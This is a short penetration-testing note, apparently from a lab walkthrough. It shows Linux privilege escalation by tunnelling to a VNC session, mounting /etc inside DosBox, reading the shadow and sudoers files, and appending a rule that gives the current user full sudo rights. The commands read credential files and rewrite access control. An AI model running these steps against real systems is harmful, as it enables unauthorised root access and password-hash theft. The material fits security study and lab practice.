 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### VNC to DosBox

```bash - linux
netstat -tulpn
```

Look for VNC service:
![[Pasted image 20220404105411.png]]

We see VNC on port 5901.  Let's use port forwarding to access.
Kali:
```bash - kali
ssh -L 5901:localhost:5901 commander@$TARGET
```

Kali:
```bash - kali
vncviewer localhost:5901
```

![[Pasted image 20220404105810.png]]

Now we can open terminal in vncviewer and run dosbox:
```bash - target
dosbox
```

Let's mount the /etc directory to C:

```dosbox - target
mount C /etc
```

Change to the C drive:
```dosbox - target
C:
```

Check to see if you can read a high privileged file (shadow):
```dosbox - target
type shadow
```

```dosbox - target
type sudoers
```

Let's put our current user into the sudoers file:
```dosbox - target
echo <USER> ALL=(ALL) ALL >> sudoers
```

![[Pasted image 20220404120322.png]]

Now back in target terminal:
```bash - target
sudo -i
```

![[Pasted image 20220404120222.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
